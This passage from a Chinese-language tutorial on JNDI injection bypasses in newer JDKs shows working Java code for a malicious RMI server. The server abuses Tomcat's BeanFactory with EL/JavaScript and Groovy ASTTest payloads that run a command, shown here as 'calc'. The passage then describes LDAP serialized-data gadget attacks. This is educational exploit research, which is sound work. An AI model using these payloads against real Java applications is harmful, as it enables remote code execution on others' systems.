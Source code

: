 ```java
        ref.add(new StringRefAddr("CC", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));

        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("Calc", referenceWrapper);  // 绑定目录名
        System.out.println("Server Started!");
    }
}
```

ELProcessor.eval()会对EL表达式进行求值，最终达到命令执行的效果

#### groovy.lang.GroovyClassLoader.parseClass(String text)

groovy中同样存在基于一个String参数触发的方法`parseClass`，利用服务端代码如下

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import groovy.lang.GroovyClassLoader;

public class RMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "CC=parseClass"));
        String script = "@groovy.transform.ASTTest(value={\n" +
                "    assert java.lang.Runtime.getRuntime().exec(\"calc\")\n" +
                "})\n" +
                "def x\n";
        ref.add(new StringRefAddr("CC",script));

        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("RCE", referenceWrapper);
    }
}
```

`groovy.lang.GroovyShell` 中的 evaluate 方法也可以实现类似的效果

### 利用LDAP返回序列化数据，触发本地Gadget

高版本JVM对Reference Factory远程加载类进行了安全限制，JVM不会信任LDAP对象反序列化过程中加载的远程类，但攻击者仍然可以利用受害者本地CLASSPATH中存在漏洞的反序列化Gadget达到绕过限制执行命令的目的。

简而言之，LDAP Server除了使用JNDI Reference进行利用之外，还支持直接返回一个对象的序列化数据。如果Java对象的 javaSerializedData 属性值不为空，则客户端的 `obj.decodeObject()` 方法就会对这个字段的内容进行反序列化。
